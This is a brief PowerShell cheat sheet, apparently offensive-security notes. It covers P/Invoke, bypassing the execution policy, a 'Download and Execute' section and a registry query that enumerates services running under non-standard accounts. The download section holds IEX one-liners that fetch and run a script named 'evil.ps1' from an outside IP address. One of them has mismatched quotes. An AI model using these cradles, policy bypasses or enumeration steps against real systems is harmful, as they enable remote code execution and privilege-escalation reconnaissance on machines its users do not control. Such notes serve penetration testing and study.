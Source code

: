## Pinvoke
------
#### Basic Pinvoke
```

$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32{
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text, String caption, int options);
}
"@

Add-Type $User32
[User32]::MessageBox(0,"This is an alert", "MyBox", 0)
```

#### Determine Execution Policy 
Get-ExecutionPolicy -List
#### Set Execution Policy to Bypass
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
powershell.exe -ExecutionPolicy bypass


## Dotnet Interaction
#### Access static method with reference to class
(New Object Namespace.Class).Method()

#### Download and Execute
IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.206:6666/evil.ps1')
IEX ( iwr ''http://192.168.56.206:6666/evil.ps1")

#### List all services that do not run as a standard account
Get-ItemProperty -Path Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\* | Where-Object {($_.ObjectName -notlike 'NT Authority\*') -and ($_.ObjectName -ne $null) -and ($_.ObjectName -ne "LocalSystem")}